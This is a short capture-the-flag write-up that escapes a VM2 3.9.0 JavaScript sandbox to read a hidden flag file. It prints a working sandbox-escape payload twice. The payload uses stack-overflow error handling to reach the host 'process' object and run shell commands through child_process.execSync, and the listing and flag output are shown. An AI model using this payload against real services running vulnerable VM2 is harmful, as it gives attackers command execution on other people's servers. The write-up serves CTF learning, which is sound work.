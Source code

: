 # Pjescanik (170 points)

We are presented with a website which has a VM2 sandbox for running code and the information that it's version 3.9.0.

We also have the server source code and `package-lock.json`, but we don't really need them because they didn't lie and it's in fact using VM2 3.9.0, but we can double check if we really want to.

Searching the web for `VM2 3.9.0 exploit` we can immediately find [this](https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c) and we get the exploit..

```js
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('ls');
}
```

This literally spits out the answer 

```text
Rezultat pokretanja koda:
node_modules package-lock.json package.json s3cr3tf01d3r server.js views
```

Then running `ls s3cr3tf01d3r` we see that it has the flag, and finally

```js
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat s3cr3tf01d3r/f14g_048x6z43y7.txt');
}
```

Which gives the flag `CTF2024[293455399515]`.
